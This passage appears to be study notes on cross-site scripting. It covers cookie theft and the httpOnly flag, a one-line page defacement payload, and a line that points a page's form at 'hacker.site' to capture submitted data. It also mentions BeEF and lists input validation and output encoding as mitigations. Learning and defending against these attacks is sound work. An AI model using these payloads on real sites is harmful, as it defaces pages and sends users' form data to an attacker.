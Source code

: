Cookie theft is applicable if the httpOnly flag has not been set. The httpOnly diss-allows javascript from modifying the cookies.

Secure cookies are only sent over HTTPS connections.

## dom manipluation

```
document.body.innerHTML='<h1>defaced</h1>'
```

## change form target

```
document.forms[0].action='http://hacker.site/stole_your_form_data.php'
```

## BeEF

BeEF or browser exploitation framework can be used to pivot  through the victims browser and perform an array of interesting browser exploitation attacks (see the browser hackers handbook).

## Mitigation

Cross site scripting is a data validation vulnerability that can only happen if untrusted user input is displayed via the web applications output (without or with partial modification).

### Some mitigations & philosophy

* input validation - to filter out malicious attack vectors
* context-aware output encoding - to correctly render the content
* never ever trust user input

eg. if the input should only accept digits use a whitelist to *only* allow digits. This is effective input validation.

Context aware output encoding means knowing where the content will eventually be rendered so that malicious input can be encoded (thus made safe). For example code can be encoded to make it harmless when eventually rendered.

## References

* XSS Attacks: Cross Site Scripting Exploits and Defense [book]
* [XSS Filter evasion cheat sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
